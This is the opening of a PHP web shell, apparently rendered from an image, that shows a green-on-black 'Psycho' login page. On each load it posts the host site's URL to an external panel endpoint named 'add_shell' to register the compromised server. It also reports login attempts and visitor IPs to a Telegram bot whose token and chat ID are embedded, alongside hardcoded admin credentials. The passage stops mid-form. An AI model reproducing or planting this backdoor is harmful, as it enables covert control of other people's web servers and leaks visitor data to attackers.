 <?php
session_start();

// === CONFIG ===
$botToken = '8168689463:AAEMWd0rLesCHu10NGepKDpbfV0Pw59skoI';
$chatId = '6664061200';
$panelApi = 'https://jinji666.store/panelcapz/api.php?action=add_shell';
$username = 'admin';
$password = '@haloo123';

// === FUNCTIONS ===
function sendTelegram($message) {
    global $botToken, $chatId;
    @file_get_contents("https://api.telegram.org/bot".$botToken."/sendMessage?chat_id=".$chatId."&text=".urlencode($message));
}

function postToPanel($url, $data) {
    if (function_exists('curl_version')) {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_POST, 1);
        curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($data));
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT, 5);
        curl_exec($ch);
        curl_close($ch);
    } else {
        $opts = array('http' => array(
            'method' => 'POST',
            'header' => 'Content-type: application/x-www-form-urlencoded',
            'content' => http_build_query($data),
            'timeout' => 5,
        ));
        $context = stream_context_create($opts);
        @file_get_contents($url, false, $context);
    }
}

// === AUTO SUBMIT URL TO PANEL ===
$fullUrl = (isset($_SERVER['HTTPS']) ? "https" : "http") . "://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
postToPanel($panelApi, array('url' => $fullUrl));

// === AUTH ===
if (!isset($_SESSION['loggedin'])) {
    if (isset($_POST['user']) && isset($_POST['pass'])) {
        if ($_POST['user'] === $username && $_POST['pass'] === $password) {
            $_SESSION['loggedin'] = true;
            sendTelegram("[LOGIN SUCCESS]\nURL: ".$fullUrl."\nIP: ".$_SERVER['REMOTE_ADDR']);
            header("Location: ".$_SERVER['PHP_SELF']);
            exit;
        } else {
            sendTelegram("[LOGIN FAILED]\nIP: ".$_SERVER['REMOTE_ADDR']);
        }
    }
    echo '<html><head><title>Psycho - Login</title><style>
    body{background:#111;color:#0f0;font-family:monospace;text-align:center;margin-top:100px;}
    input{background:#222;color:#0f0;border:1px solid #0f0;padding:10px;margin:5px;}
    .login-btn{background:#0f0;color:#000;padding:10px 20px;margin-top:10px;cursor:pointer;}
    .login-btn:hover{background:#090;}
    .title{animation:glow 1s ease-in-out infinite alternate;}
    @keyframes glow{from{text-shadow:0 0 10px #0f0;}to{text-shadow:0 0 20px #0f0;}}
    </style></head><body>
    <h1 class="title">Psycho</h1>
    <form method="post">